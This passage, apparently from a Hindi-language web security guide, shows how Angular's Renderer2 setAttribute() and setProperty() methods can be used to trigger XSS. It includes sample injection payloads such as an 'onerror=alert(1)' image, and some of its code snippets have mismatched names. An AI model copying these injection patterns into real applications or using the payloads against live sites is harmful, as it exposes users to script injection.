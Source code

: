 *   हालाँकि `Renderer2` API प्रदान करता है जिसे सुरक्षित रूप से उपयोग किया जा सकता है, भले ही मूल तत्वों तक सीधी पहुँच का समर्थन न हो, फिर भी इसमें कुछ सुरक्षा दोष हैं। `Renderer2` के साथ, HTML तत्व पर `setAttribute()` विधि का उपयोग करके विशेषताएँ सेट करना संभव है, जिसमें कोई XSS रोकथाम तंत्र नहीं है।

```tsx
//app.component.ts
import {Component, Renderer2, ElementRef, ViewChild, AfterViewInit } from '@angular/core';

@Component({
selector: 'app-root',
templateUrl: './app.component.html',
styleUrls: ['./app.component.css']
})
export class AppComponent {

public constructor (
private renderer2: Renderer2
){}
@ViewChild("img") img!: ElementRef;

addAttribute(){
this.renderer2.setAttribute(this.img.nativeElement, 'src', '1');
this.renderer2.setAttribute(this.img.nativeElement, 'onerror', 'alert(1)');
}
}

//app.component.html
<img #img>
<button (click)="setAttribute()">Click me!</button>
```
*   DOM तत्व की प्रॉपर्टी सेट करने के लिए, आप `Renderer2.setProperty()` विधि का उपयोग कर सकते हैं और XSS हमले को ट्रिगर कर सकते हैं:

```tsx
//app.component.ts
import {Component, Renderer2, ElementRef, ViewChild, AfterViewInit } from '@angular/core';

@Component({
selector: 'app-root',
templateUrl: './app.component.html',
styleUrls: ['./app.component.css']
})
export class AppComponent {

public constructor (
private renderer2: Renderer2
){}
@ViewChild("img") img!: ElementRef;

setProperty(){
this.renderer2.setProperty(this.img.nativeElement, 'innerHTML', '<img src=1 onerror=alert(1)>');
}
}

//app.component.html
<a #a></a>
<button (click)="setProperty()">Click me!</button>
```
